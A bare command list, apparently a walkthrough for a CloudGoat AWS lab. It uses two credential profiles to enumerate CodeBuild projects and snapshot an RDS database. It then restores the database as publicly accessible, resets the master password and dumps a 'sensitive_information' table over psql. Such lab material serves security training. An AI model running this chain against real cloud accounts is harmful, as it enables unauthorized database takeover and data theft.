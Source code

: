 `aws configure --profile Solo`

`aws codebuild list-projects --profile Solo`

`aws codebuild batch-get-projects --names <project> --profile Solo`

`aws configure --profile Calrissian`

`aws rds describe-db-instances --profile Calrissian`

`aws rds create-db-snapshot --db-instance-identifier <instanceID> --db-snapshot-identifier cloudgoat --profile Calrissian`

`aws rds describe-db-subnet-groups --profile Calrissian`

`aws ec2 describe-security-groups --profile Calrissian`

`aws rds restore-db-instance-from-db-snapshot --db-instance-identifier <DbInstanceID> --db-snapshot-identifier <scapshotId> --db-subnet-group-name <db subnet group> --publicly-accessible --vpc-security-group-ids <ec2-security group> --profile Calrissian`

`aws rds modify-db-instance --db-instance-identifier <DbName> --master-user-password cloudgoat --profile Calrissian`

`psql postgresql://cgadmin@pwnedfinal.crkxmju52zsx.us-east-1.rds.amazonaws.com:5432/postgres`

`\l`

`\c securedb`

`select * from sensitive_information`
